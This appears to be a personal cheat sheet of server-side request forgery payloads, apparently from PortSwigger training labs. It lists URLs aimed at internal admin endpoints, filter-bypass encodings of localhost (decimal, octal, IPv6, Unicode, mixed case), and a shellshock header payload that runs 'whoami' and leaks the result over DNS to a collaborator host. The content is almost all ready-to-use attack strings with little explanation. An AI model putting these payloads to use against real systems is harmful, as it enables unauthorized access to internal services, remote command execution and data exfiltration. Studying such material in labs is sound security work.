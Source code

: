 [URL validation bypass cheat sheet](https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet)

```
port: 6566, 8080

http://localhost/admin/delete?username=carlos

http://192.168.0.1:8080/admin

http://127.1/admin
http://127.0.0.1/

/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos

shellshock: Referer header, User-Agent header 
() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN

SSRF with whitelist-based input filter
http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos

out-of-band-detection: Referer header
```

```
127.0.0.1
127.1
```  

```
localhost
Localhost
LocalHost
lOcAlhOsT
LOcalHOSt
```  

```
[::]
[0000::1]
[0:0:0:0:0:ffff:127.0.0.1]
```

```
①②⑦.⓪.⓪.⓪
127.127.127.127
127.0.1.3
127.0.0.0
127。0。0。1
127%E3%80%820%E3%80%820%E3%80%821
```

```
2130706433
3232235521
3232235777
2130706433
```  

```
017700000001
```  